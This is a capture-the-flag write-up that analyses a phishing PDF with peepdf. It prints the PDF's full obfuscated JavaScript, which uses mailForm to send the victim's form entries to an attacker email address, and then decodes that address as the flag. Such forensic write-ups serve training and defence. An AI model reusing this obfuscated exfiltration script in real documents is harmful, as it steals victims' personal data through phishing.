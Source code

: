 # The Phish Tank - 3b
> An additional email sent from that same suspicious IP address contained an attached PDF document. The user who opened this document started to fill out the form, but became suspicious and reported it to Snowpoint’s security team instead of hitting the submit button.

> The Snowpoint security team would like you to download the attached PDF document and determine what would happen if the submit button was clicked.

> Where would the sensitive information provided in the form be sent?

> Flag format: email address. Example: icsjwgctf@gmail.com

## About the Challenge
We need to do reverse engineering on a PDF file to obtain the email (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
First, im using static-analysis approach to find the flag and then using [peepdf](https://github.com/jesparza/peepdf). Here is the command I used

```shell
python2 peepdf.py -f /home/kali/Downloads/download.pdf -i
```

![peepdf](images/peepdf.png)

As you can see, there is malicious elements such as Javascripts in objects 4 and 5. And if we check the object using this command

```
object 4
```

![js_elements](images/js_elements.png)

And then there is an obfuscated javascript file like this

```javascript
var c80ac4f9c2=this.getField(function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-1-o)})).join("")}(33,137,150,151)+995..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-25-o)})).join("")}(28,156,163,150)),feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154),b15d02c677=this.getField(32788..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-56-o)})).join("")}(25,198,194,201,196)+13..toString(36).toLowerCase()),run=0;1==run&&this.mailForm(!1,feddc07405,"","",c80ac4f9c2,b15d02c677);
```

Im using some of the deobfuscator javascript tools online like this [one](https://lelinhtinh.github.io/de4js/) but the result is not i good. So I decided to execute the Javascript code manually on my browser console to obtain the email address

```javascript
var feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154)
console.log(feddc07405)
```

So, the flag was located in `feddc07405` variable and we need to print the `feddc07405` variable to be able to read the flag

![flag](images/flag.png)

```
jupiter47@galactic.plat
```